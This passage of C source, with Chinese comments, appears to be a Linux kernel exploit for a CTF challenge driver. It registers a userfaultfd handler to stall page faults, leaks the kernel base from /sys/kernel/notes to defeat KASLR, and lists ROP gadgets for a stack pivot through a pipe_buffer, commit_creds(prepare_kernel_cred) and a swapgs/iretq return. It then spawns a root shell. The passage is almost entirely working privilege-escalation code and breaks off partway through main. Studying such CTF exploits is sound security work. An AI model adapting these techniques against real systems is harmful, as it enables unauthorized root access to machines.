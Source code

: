 ```c
        exit(-1);
    }
    ur.range.start = (unsigned long)fault_page; // 我们要监视的区域
    ur.range.len = PAGE_SIZE;
    ur.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1)
    { // 注册缺页错误处理，当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
        printf("[-] ioctl-UFFDIO_REGISTER");
        exit(-1);
    }
    // 开一个线程，接收错误的信号，然后处理
    int s = pthread_create(&thr, NULL, handler, (void *)uffd);
    if (s != 0)
    {
        printf("[-] pthread_create");
        exit(-1);
    }
}
void get_shell()
{
    if (getuid())
    {
        puts("failed to get root");
        exit(0);
    }
    puts("get root");
    system("/bin/sh");
}

int main()
{
    save_status();
    fd = open("/dev/ksctf", O_RDWR);
    // leak kernelbase
    int note = open("/sys/kernel/notes", O_RDONLY);
    char tmp[0x100] = {0};
    read(note, tmp, 0x100);
    kernel_base = *(long *)(&tmp[0x9c]) - 0x2000;
    size_t offset = kernel_base - 0xFFFFFFFF81000000;
    // 然后看看能不能得到 kaslr 偏移
    size_t pop_rax_ret = 0xffffffff8101040e;
    size_t pop_rdi_ret = 0xffffffff81003e98;
    size_t swapgs_ret = 0xffffffff8105c8f0;
    size_t iretq_ret = 0xffffffff81032b42;
    size_t swap_rsp_rax = 0xffffffff825c8c74;
    // size_t confirm=0xFFFFFFFF811E3350;     // 这一步会被 smap 干掉
    size_t prepare_kernel_cred = 0xFFFFFFFF81098140;
    size_t mov_rdi_rax = 0xFFFFFFFF810FF598;
    size_t commit_creds = 0xFFFFFFFF81097D00;
    size_t push_rsi_pop_rsp = 0xffffffff81599a34; // push rsi; pop rsp; setl al; shl eax, 2; ret; 此时 rsi 是指向的 pipe_buffer
    // mark 一下可以找这样的 gadget
    size_t ret = 0xFFFFFFFF811DCB70;
    printf("offset: %p\n", offset);

    checkbuf[0x20] = 1;
    *(long *)&checkbuf[0x28] = (long)data;
    // userfaultfd
    ioctl(fd, 0xFFF0, checkbuf);
    page = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    registerUserfault(page, Handler);

    ptr = *(long long *)data;
```